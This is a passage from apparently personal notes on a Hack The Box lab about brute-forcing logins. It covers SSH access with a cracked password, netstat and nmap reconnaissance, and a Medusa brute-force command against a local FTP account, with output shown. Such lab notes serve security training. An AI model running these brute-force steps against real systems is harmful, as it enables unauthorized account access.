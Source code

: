 Upon execution, Medusa will display its progress as it cycles through the password combinations. The output will indicate a successful login, revealing the correct password.

## Gaining Access

With the password in hand, establish an SSH connection using the following command and enter the found password when prompted:

```shell
gitblanc@htb[/htb]$ ssh sshuser@<IP> -p PORT
```

This command will initiate an interactive SSH session, granting you access to the remote system's command line.

### Expanding the Attack Surface

Once inside the system, the next step is identifying other potential attack surfaces. Using `netstat` (within the SSH session) to list open ports and listening services, you discover a service running on port 21.

```shell
gitblanc@htb[/htb]$ netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

Further reconnaissance with `nmap` (within the SSH session) confirms this finding as an ftp server.

```shell
gitblanc@htb[/htb]$ nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

### Targeting the FTP Server

Having identified the FTP server, you can proceed to brute-force its authentication mechanism.

If we explore the `/home` directory on the target system, we see an `ftpuser` folder, which implies the likelihood of the FTP server username being `ftpuser`. Based on this, we can modify our Medusa command accordingly:

```shell
gitblanc@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```
